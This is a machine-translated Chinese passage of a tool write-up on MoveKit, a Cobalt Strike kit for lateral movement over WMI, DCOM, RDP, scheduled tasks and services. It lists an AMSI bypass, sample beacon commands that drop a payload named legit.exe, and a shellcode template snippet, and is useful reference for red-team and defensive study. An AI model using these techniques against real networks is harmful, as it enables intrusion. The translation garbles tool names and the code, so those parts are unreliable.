

# MoveKit:用于横向移动的钴撞击套件

> 原文：<https://kalilinuxtutorials.com/movekit/>

**Movekit** 是内置钴击横向移动的扩展，利用 SharpMove 和 SharpRDP 的 execute_assembly 功能。NET 程序集。攻击者脚本通过读取特定执行类型的模板文件来处理有效负载的创建。

重要提示:要使用该脚本，用户只需加载`MoveKit.cna`攻击者脚本，该脚本将加载所有其他必要的脚本。此外，根据所采取的行动，需要编译 [SharpMove](https://github.com/0xthirteen/SharpMove) 和 [SharpRDP](https://github.com/0xthirteen/SharpRDP) 组件并将其放入`Assemblies`目录。最后，一些文件移动需要动态编译，这需要 Mono。

当加载攻击者脚本时，会有一个选择器加载到名为`Move`的`menubar`中。用户可以选择多个选项。首先，用户可以选择通过 WMI、DCOM、任务调度器、RDP 或 SCM 在远程系统上执行命令。第二种是`Command`执行机制，它使用下载支架来抓取和执行文件。第三，`File`方法在系统上放下一个文件并执行它。还有`Write File Only`，它不做任何执行，只移动数据。最后，有一个`Default`设置，使使用 GUI 更快，并与信标命令一起使用。默认设置用于任何可以接受默认值的对象。

为了使用信标命令，它将读取默认设置并使用一些命令行参数。一个信标命令示例:`<exec-type> <target> <listener> <filename>`

`move-msbuild 192.168.1.1 http move.csproj`

此外，定制的预构建信标命令略有不同。命令示例:`move-pre-custom-file <target> <local-file> <remote-filename>`

`move-pre-custom-file computer001.local /root/payload.exe legit.exe`

位置字段是项目中最棘手的部分。选择`WMI`时，将使用文件移动`location`，如果选择 SMB，则不会使用它(因此可以留空)。`Location`取三种不同的值。首先，它`location`是一个 URL，然后当有效载荷被创建时，它将由 Cobalt Strike 的 web 服务器托管。将从中执行程序集的信标主机将向 URL 发出 web 请求并获取文件，该文件将在目标主机上的事件 sub 中用于写入文件。第二，如果`location`是一个 Windows 目录，那么它将把创建的文件上传到信标主机，并且程序集将从文件系统中读取它，并存储在事件 sub 中以写入远程主机。最后，如果`location`字段是一个 linux 路径或单词`local`，那么它将动态地把有效负载编译到正在执行的汇编中。但是，如果文件超过 1MB 的文件大小限制，则会显示错误。

对于所有文件方法，有效负载将通过攻击者脚本创建。但是，如果已经创建了有效载荷，用户可以选择使用`Custom (Prebuilt)`选项来移动和执行它。

该工具包包含不同的文件移动技术、执行触发器和有效负载类型。

**文件移动被认为是用于将文件获取到远程主机的方法文件移动类型:**

*   SMB 到平面文件
*   WMI 走向扁平的文件
*   WMI 到注册表键值
*   WMI 定制 WMI 类属性

**命令触发被认为是用于在远程主机上执行特定命令的方法。命令触发类型:**

*   WMI
*   持有国家证书的助产士
*   RDP
*   DCOM(多个)
*   计划任务
*   修改计划任务(现有任务更新了操作，执行任务并重置操作)
*   修改服务二进制路径(现有服务已更新二进制路径，服务已启动并重置回原始状态)

**仅外壳代码执行:**

*   Excel 4.0 DCOM
*   WMI 活动订阅(即将推出)

**劫持:**

*   服务 DLL 劫持(即将推出)
*   DCOM 服务器劫持(即将推出)

#### **依赖关系**

*   单声道(MCS)用于编译。NET 程序集(用于动态有效负载创建、InstallUtil 和自定义非预编译)。使用 FileWrite 程序集时也是如此。

#### 陷阱:

*   有时在文件移动之前会调用 execute_assembly，如果发生这种情况，您可以通过取消选中 *Auto* 复选框来执行有效负载
*   该套件不会自动清理文件，而是由操作员来处理

**注意:**建议不要在项目中使用默认模板。

要替换模板，您必须满足两个要求。首先，模板必须命名为 technique(例如:`msbuild.csproj`)。其次，源代码必须包含字符串`$$PAYLOAD$$`，base64 编码的外壳代码将进入该字符串，并且能够将 base64 字符串转换为字节数组。C#的示例:

string strSC = " $ $有效负载$ $ "；
byte[] sc = Convert。from base 64 string(strSC)；

添加了一项更改，允许默认值更新“查找和替换字符串”和“更新默认值对话框”中的外壳代码格式。默认情况下，它们是`$$PAYLOAD$$`和 base64。

**操作注意事项**

*   如果使用任务计划程序，将创建和删除计划的任务
*   如果使用 SCM 服务将被创建和删除
*   如果使用 AMSI 旁路，它将只适用于 WSH，而不是 PowerShell
*   如果使用 AMSI 旁路，它将通过更新或创建注册表项，然后将其设置回原始值或删除来修改注册表
*   它使用钴击的`execute-assembly`功能，所以它会像其他事后工作一样注入到牺牲过程中
*   如果使用任何一种`File`或`Command`方法，文件将被放到磁盘上
*   不应该使用模板，它们都是公共的
*   所有的技术都不是新的，都是众所周知的

**学分**

一些代码、模板或灵感来自其他人和项目

*   WMI-[夏普米](https://github.com/GhostPack/SharpWMI)作者[哈姆吉](https://twitter.com/harmj0y)
*   DCOM-[SharpCOM](https://github.com/rvrsh3ll/SharpCOM)由 [rvrsh3ll](https://twitter.com/424f424f) 和 [SharpSploit DCOM](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/LateralMovement/DCOM.cs) 由 [cobbr](https://twitter.com/cobbr_io)
*   供应链管理-[cs exec](https://github.com/malcomvetter/CSExec)作者[蒂姆·马尔康维特](https://twitter.com/malcomvetter)
*   服务 DLL 被 [djhohnstein](https://twitter.com/djhohnstein) 劫持 [SharpSC](https://github.com/djhohnstein/SharpSC)
*   服务二进制路径修改 [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) 由 [Mr-Un1k0d3r](https://twitter.com/MrUn1k0d3r)
*   [Shellcode runner 模板](https://github.com/Arno0x/CSharpScripts/blob/master/shellcodeLauncher.cs)由[分包](https://twitter.com/subTee)
*   [仙人掌火炬有效载荷](https://github.com/vysecurity/CACTUSTORCH)由[维安](https://twitter.com/vysecurity)

某个地方可能有 bug，它们会不时出现。只要把它们拿上来，我就会修理它们